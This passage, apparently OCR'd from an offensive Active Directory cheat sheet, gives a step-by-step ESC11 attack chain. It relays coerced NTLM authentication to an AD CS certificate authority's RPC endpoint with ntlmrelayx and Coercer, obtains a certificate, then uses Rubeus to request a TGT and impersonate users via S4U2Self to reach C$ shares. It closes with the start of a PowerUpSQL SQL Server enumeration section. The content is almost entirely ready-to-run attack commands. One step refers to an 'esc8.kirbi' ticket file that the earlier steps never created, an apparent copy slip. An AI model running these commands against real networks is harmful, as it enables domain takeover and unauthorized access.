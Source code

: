 ````
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```

### ESC11 NTLM Relay to AD CS ICPR Endpoints
- Relay RPC interface which supports NTLM auth. ICertPassage Remote Protocol can be used to request certificates
- If the `IF_ENFORCEENCRYPTICERTREQUEST` flag is set relaying using RPC will not be possible. Flag by default on Windows server 2012 and higher!

#### Enumerate CES Enrollment Endpoints
- Check for `Enforce Encryption for Requests : Disabled` on the Certificate Authorities (Not the template!)
- Requires specific fork of certipy https://github.com/sploutchy/Certipy
```
certipy find -u <USER>@<FQDN DOMAIN> -p <PASSWORD> -dc-ip <DC IP> -stdout
```

#### Start NTLMRelay
- Requires specific fork of impacket https://github.com/sploutchy/impacket
```
python3 ntlmrelayx.py -t rpc://<FQDN CA> -smb2support --adcs --template DomainControllerAuthentication -rpc-mode ICPR -icpr-ca-name "<CA NAME>"
```

#### Force coerce
```
python3 Coercer.py coerce -l <KALI IP> -t <TARGET IP> -u <USER> -p <PASSWORD> -d <DOMAIN> -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

#### Request TGT
```
.\Rubeus.exe asktgt /user:<COMPUTER ACCOUNT>$ /domain:<FQDN DOMAIN> /dc:<FQDN DC> /outfile:esc11.kirbi /certificate:<BASE64 CERT>
```

#### Execute S4USelf
```
.\Rubeus.exe s4u /self /impersonateuser:<USER> /altservice:cifs/<FQDN COMPUTER> /dc:<FQDN DC> /user:<COMPUTER ACCOUNT>$ /ticket:esc8.kirbi /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```

## SQL Server
- Could be possible cross domain or cross forest!
```
. .\PowerUpSQL.ps1
```
 
#### Find possible SQL admins or groups that have access to SQL
```
Get-DomainGroup | Where-Object -Property samaccountname -Match SQL
MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
```
 
### Locating and accessing SQL Servers
#### Discovery of SQL instances (SPN scanning)
```
Get-SQLInstanceDomain
 
````
